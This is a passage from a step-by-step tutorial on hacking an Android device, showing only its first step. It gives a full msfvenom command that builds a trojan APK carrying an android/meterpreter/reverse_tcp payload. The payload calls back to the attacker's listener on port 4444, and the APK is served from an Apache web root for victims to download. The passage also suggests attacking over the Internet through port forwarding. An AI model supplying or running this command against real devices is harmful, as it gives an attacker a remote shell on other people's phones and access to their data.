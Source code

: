 ### Step by step Tutorial

#### Step 1 : Generating a Payload with msfvenom
At first, fire up the Kali Linux so that we may generate an apk file as a malicious payload. 
We need to check our local IP that turns out to be ‘192.xxx.x.xxx’. 
You can also hack an Android device through Internet by using your Public/External IP in the LHOST and by port forwarding.



After getting your Local host IP use msfvenom tool that will generate a payload to penetrate the Android device. 

Type command: **msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4444 R> /var/www/html/ehacking.apk**

Where:
-p indicates a payload type
android/metepreter/reverse_tcp specifies a reverse meterpreter shell would come in from a target Android device
LHOST is your local IP
LPORT is set to be as a listening port
R> /var/www/html would give the output directly on apache server
apk is the final name of the final output

This would take some time to generate an apk file of almost ten thousand bytes.

